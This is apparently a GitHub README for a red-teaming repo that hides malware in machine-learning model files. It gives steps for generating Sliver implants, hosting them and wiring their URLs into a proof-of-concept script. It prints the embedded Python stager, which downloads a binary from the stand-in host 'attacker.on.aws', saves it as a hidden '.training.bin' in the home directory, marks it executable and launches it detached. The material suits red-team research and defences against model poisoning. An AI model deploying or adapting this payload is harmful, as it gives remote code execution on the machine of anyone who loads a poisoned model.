 # malicious_models
using ML models for red teaming 

This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


Here it is in action:
<iframe width="560" height="315" src="https://www.youtube.com/embed/ghG5BFNC6w0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>  

##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place. 

## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```

